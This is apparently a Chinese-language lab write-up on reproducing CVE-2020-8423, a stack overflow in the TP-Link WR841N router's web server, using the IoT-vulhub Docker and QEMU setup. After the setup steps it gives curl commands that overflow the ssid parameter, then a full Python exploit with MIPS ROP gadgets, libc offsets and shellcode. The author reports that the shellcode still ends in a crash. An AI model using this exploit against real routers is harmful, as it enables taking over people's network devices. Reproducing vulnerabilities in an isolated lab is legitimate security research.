 # TP-Link WR841N 栈溢出漏洞（CVE-2020-8423）

第一次搞iot相关，对mips的汇编还不是很熟，先熟悉一下搭环境，之后再去理解原理，这里记录一下环境搭建流程。虽然iot-vulhub已经都做好了docker，但在自己复现的时候还是多多少少会有些问题。



## IoT-vulhub基础环境搭建

```bash
#安装pip
$ curl -s https://bootstrap.pypa.io/get-pip.py | python3

#安装docker
#命令行输docker，根据提示安装就行

# 启动 docker 服务
$ systemctl start docker

# 安装 docker-compose
$ python3 -m pip install docker-compose
```

先下载IoT-vulhub项目

```bash
$ git clone https://github.com/firmianay/IoT-vulhub.git
```

构建基础镜像

```bash
# 注意-t标签不要写错，后面不少Dockerfile根据这个名称来拉的

# 构建 ubuntu1604 基础镜像
$ cd baseImage/ubuntu1604 && docker build -t firmianay/ubuntu1604 .

# 构建 binwalk 容器，方便使用
$ cd baseImage/binwalk && docker build -t firmianay/binwalk .

# 构建 qemu mips 环境
$ cd baseImage/qemu-system/mips
# 运行下载脚本
$ ./images/download.sh
# 镜像构建
$ docker build -t firmianay/qemu-system:mips .
```



## 漏洞环境搭建

### 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd（有漏洞 Web 服务器）：192.168.2.2:80
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/qemu-system:mips`



### 漏洞镜像构建

```bash
# 先切换到相应的目录
$ cd TP-Link/CVE-2020-8423

# 使用 firmianay/binwalk 解压固件：
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/wr841nv10_wr841ndv10_en_3_16_9_up_boot(150310).bin"

# 初始化环境
$ ./init_env.sh mips

# 构建镜像
$ docker-compose -f docker-compose-system.yml build
```

![](1.png)

### 启动环境


```bash
# 启动容器
$ docker-compose -f docker-compose-system.yml up
```

启动的过程有点慢


![](2.png)

```bash
# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
```



当系统开始不断的跳如下界面说明启动成功，接下来就可以访问http服务了。

![](3.png)



本机访问http服务需要挂sock5代理，如下图所示，只需填socks处的主机和端口

![](4.png)

然后就可以访问web服务啦，账号admin/admin登入

![](5.png)



### 漏洞验证

根据登入之后的path和cookie就可以验证漏洞了

![](6.png)





 登陆后得到得到 cookie（如`%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D`）和 path（如`DHJSQKMAPYZXIIXB`）： 

假如是在docker中访问直接按照项目给的curl命令就行

```bash
$ curl -H 'Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D' 'http://192.168.2.2/DHJSQKMAPYZXIIXB/userRpm/popupSiteSurveyRpm_AP.htm?mode=1000&curRegion=1000&chanWidth=100&channel=1000&ssid='$(python -c 'print("/%0A"*0x55 + "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac")')''

```

![](7.png)

运行完之后就访问不了了

![](8.png)



**假如是在本机验证还需要加上-x设置socks5代理参数**

```bash
$ curl -x socks5://127.0.0.1:2345 -H 'Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D' 'http://192.168.2.2/IXFWMIHBBQRZJFPA/userRpm/popupSiteSurveyRpm_AP.htm?mode=1000&curRegion=1000&chanWidth=100&channel=1000&ssid='$(python -c 'print("/%0A"*0x55 + "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac")')''
```

效果和上面一样

![](9.png)

### exp运行

exp.py放在system-emu/tools目录下面，需要修改path和cookie参数，以及请求头中的User-Agent参数

![](10.png)

这个exp说实话感觉有点迷惑。。。docker环境里装了的是python3的pwntools，但是exp运行环境是python2。然后请求的时候原来脚本用的是session.get，但代理貌似没有开起来，所以我exp里又改成了request.get，因为session.get不支持socks5代理，只支持http和https代理。

修改之后的exp

```python
#!/usr/bin/python2

from pwn import *
import requests
import urllib
context.endian = 'big' 
libc_base = 0x77d2a000
sleep = 0x53CA0 #end 00053ECC

g1 = 0x000E204 #0x77F47204
#LOAD:0000E204                 move    $t9, $s1
#LOAD:0000E208                 jalr    $t9 ; sysconf
#LOAD:0000E20C                 li      $a0, 3
g2 = 0x00037470
#LOAD:00037470                 move    $t9, $s2
#LOAD:00037474                 lw      $ra, 0x28+var_4($sp)
#LOAD:00037478                 lw      $s2, 0x28+var_8($sp)
#LOAD:0003747C                 lw      $s1, 0x28+var_C($sp)
#LOAD:00037480                 lw      $s0, 0x28+var_10($sp)
#LOAD:00037484
#LOAD:00037484 loc_37484:
#LOAD:00037484                 jr      $t9 ; xdr_opaque_auth
#LOAD:00037488                 addiu   $sp, 0x28
g3 = 0x0000E904 #0x77f47904
#LOAD:0000E904                 addiu   $a1, $sp, 0x168+var_150
#LOAD:0000E908                 move    $t9, $s1
#LOAD:0000E90C                 jalr    $t9 ; stat64
#LOAD:0000E910                 addiu   $a0, (aErrorNetrcFile+0x28 - 0x60000)
g4 = 0x00374D8
#LOAD:000374D8                 move    $t9, $a1
#LOAD:000374DC                 sw      $v0, 0x4C($a0)
#LOAD:000374E0                 move    $a1, $a2
#LOAD:000374E4                 jr      $t9
#LOAD:000374E8                 addiu   $a0, 0x4C  # 'L'

shellcode  = "\x24\x0e\xff\xfd\x01\xc0\x20\x27\x01\xc0\x28\x27\x28\x06\xff\xff"
shellcode += "\x24\x02\x10\x57\x01\x01\x01\x0c\xaf\xa2\xff\xff\x8f\xa4\xff\xff"
shellcode += "\x34\x0e\xff\xff\x01\xc0\x70\x27\xaf\xae\xff\xf6\xaf\xae\xff\xf4"
shellcode += "\x34\x0f\xd8\xf0\x01\xe0\x78\x27\xaf\xaf\xff\xf2\x34\x0f\xff\xfd"
shellcode += "\x01\xe0\x78\x27\xaf\xaf\xff\xf0\x27\xa5\xff\xf2\x24\x0f\xff\xef"
shellcode += "\x01\xe0\x30\x27\x24\x02\x10\x4a\x01\x01\x01\x0c\x8f\xa4\xff\xff"
shellcode += "\x28\x05\xff\xff\x24\x02\x0f\xdf\x01\x01\x01\x0c\x2c\x05\xff\xff"
shellcode += "\x24\x02\x0f\xdf\x01\x01\x01\x0c\x24\x0e\xff\xfd\x01\xc0\x28\x27"
shellcode += "\x24\x02\x0f\xdf\x01\x01\x01\x0c\x24\x0e\x3d\x28\xaf\xae\xff\xe2"
shellcode += "\x24\x0e\x77\xf9\xaf\xae\xff\xe0\x8f\xa4\xff\xe2\x28\x05\xff\xff"
shellcode += "\x28\x06\xff\xff\x24\x02\x0f\xab\x01\x01\x01\x0c"

s0 = p32(0x11111111)
s1 = p32(g2+libc_base)  # break 
s2 = p32(sleep+libc_base)

payload  = "/%0A"*0x55 + 2*'x' + s0 + s1 + s2
payload += p32(g1+libc_base)
payload += 'x'*28
payload += p32(g4+libc_base)    #s1
payload += p32(0x33333333)      #s2
payload += p32(g3+libc_base)    #ra
payload += 'x'*24
payload += shellcode

def exp(path,cookie):
    headers = {
            "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:90.0) Gecko/20100101 Firefox/90.0",
                "Cookie":"Authorization=Basic{cookie}".format(cookie=str(cookie))}

    params = {
        "mode":"1000",
                "curRegion":"1000",
                "chanWidth":"100",
                "channel":"1000",
                "ssid":urllib.unquote(payload)
        }

    url="http://192.168.2.2:80/{path}/userRpm/popupSiteSurveyRpm_AP.htm".format(path=str(path))

    resp = requests.get(url,params=params,headers=headers,timeout=10,proxies={'http':'socks5://127.0.0.1:2345'})
    print(resp.text)

exp("AEAMATJAMXMAVVYB","%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D")
```

运行之后效果图

![](11.png)

这里的shellcode可能还有点问题，看上去感觉是执行sleep的，但是运行完exp显示的是SIGSEGV，有待考察，不过肯定栈溢出了。

### 流量抓取

开了代理的话就只能本地访问然后在docker容器里去抓了，结果tcpdump有问题，尝试了修复链接库，但是无果，还好之前编译过静态的tcpdump，拿过来直接用就完事了。

把编译好的tcpdump复制进容器，在容器(代理服务器)中抓流量

```bash
$ ./tcpdump -s 0 -w 1.pcap port 80
```

![](12.png)